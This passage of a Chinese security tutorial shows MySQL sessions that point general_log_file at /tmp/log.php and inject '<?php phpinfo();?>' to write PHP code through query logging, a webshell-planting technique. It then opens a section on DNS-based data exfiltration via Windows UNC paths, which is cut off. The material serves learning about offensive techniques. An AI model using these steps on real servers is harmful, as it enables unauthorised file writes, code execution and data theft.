 ```
+------------------+---------------------------------+
2 rows in set
Time: 0.013s
```

```
mysql root@localhost:(none)> show global variables like '%general%';
+------------------+---------------------------------+
| Variable_name    | Value                           |
+------------------+---------------------------------+
| general_log      | OFF                             |
| general_log_file | /var/lib/mysql/f6b222ea5020.log |
+------------------+---------------------------------+
2 rows in set
Time: 0.011s
mysql root@localhost:(none)> set global general_log_file="/tmp/log.php"
Query OK, 0 rows affected
Time: 0.001s
mysql root@localhost:(none)> set global general_log=1
Query OK, 0 rows affected
Time: 0.002s
mysql root@localhost:(none)> show global variables like '%general%';
+------------------+--------------+
| Variable_name    | Value        |
+------------------+--------------+
| general_log      | ON           |
| general_log_file | /tmp/log.php |
+------------------+--------------+
2 rows in set
Time: 0.011s
```

```
mysql root@localhost:mysql> select host from `user` union select "<?php phpinfo();?>"
+--------------------+
| host               |
+--------------------+
| %                  |
| <?php phpinfo();?> |
+--------------------+
2 rows in set
Time: 0.008s
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202021353680.png)

## dnslog外带数据

只能够在windows上进行,利用了windows的[UNC](https://docs.microsoft.com/en-us/dotnet/standard/io/file-path-formats#unc-paths)

|Path|Description|
|:---:|:---:|
|`\\system07\C$\`|The root directory of the C: drive on system07.|
|`\\Server2\Share\Test\Foo.txt`|The Foo.txt file in the Test directory of the `\\Server2\Share volume`.|
